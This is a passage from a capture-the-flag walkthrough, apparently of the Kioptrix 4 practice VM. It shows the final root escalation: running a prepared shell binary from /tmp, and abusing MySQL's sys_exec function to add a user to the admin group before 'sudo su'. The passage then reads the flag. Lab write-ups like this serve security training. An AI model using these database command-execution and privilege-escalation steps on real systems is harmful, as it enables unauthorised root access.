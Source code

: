 We change our directory to /tmp then run the sh program and finally we got a root shell.

```bash
cd /tmp
ls
./sh
id
whoami
```

![root1](/assets/img/posts/kioptrix4/12.png)

### Method 2

We also can use sys_exec function to add john user to admin group so we can use sudo command to switch to root user easily.

```bash
select sys_exec('usermod -a -G admin john');
sudo su
id
whoami
```

![root2](/assets/img/posts/kioptrix4/13.png)


And eventually, here is the flag

```bash
cd ~
ls
cat congrats.txt
```
